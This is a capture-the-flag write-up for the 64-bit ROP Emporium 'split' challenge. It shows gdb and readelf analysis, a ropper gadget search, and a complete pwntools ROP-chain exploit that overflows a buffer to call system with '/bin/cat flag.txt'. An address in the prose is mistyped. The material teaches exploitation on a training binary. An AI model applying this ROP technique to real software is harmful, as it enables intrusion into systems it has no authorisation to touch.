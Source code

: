 ## 64 bits

```bash
$ checksec split
[*] '/home/localuser/ropemporium/split/64bits/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Now I'll open it on gdb to start analysing it.

```bash
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
0x0000000000400760  __libc_csu_init
0x00000000004007d0  __libc_csu_fini
0x00000000004007d4  _fini
```

`main` calls `pwnme`, and pwnme is vulnerable to a buffer overflow because it is using the `read` function, there's also a function named `usefulFunction`:

```bash
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret    
End of assembler dump.
```

Now there isn't `/bin/cat flag.txt` but using readelf you can find it on the address `0x0060601060`

```bash
$ readelf -x .data split

Hex dump of section '.data':
  0x00601050 00000000 00000000 00000000 00000000 ................
  0x00601060 2f62696e 2f636174 20666c61 672e7478 /bin/cat flag.tx
  0x00601070 7400                                t.
```

Now with the buffer overflow we can jump to `system`, but before it we need to change the value of `EDI`, for this we'll use a ROP gadget that pops the value of `edi`, I'll use ropper:

```bash
$ ropper
(ropper)> file split                                                                                                                                                                   
(split/ELF/x86_64)> gadgets   
----
----
0x00000000004007c3: pop rdi; ret;
---
---
```

Now we have everything to make the exploit:

```python
from pwn import *

p = process("./split")
elf = ELF("./split")

pop_rdi = p64(0x4007c3)
cat_flag = p64(0x00601060) 
sys_addr = p64(0x40074b)

payload = b"a"*40
payload += pop_rdi
payload += cat_flag
payload += sys_addr


p.recvuntil(">")
p.sendline(payload)
p.recvline()
p.interactive() 
```
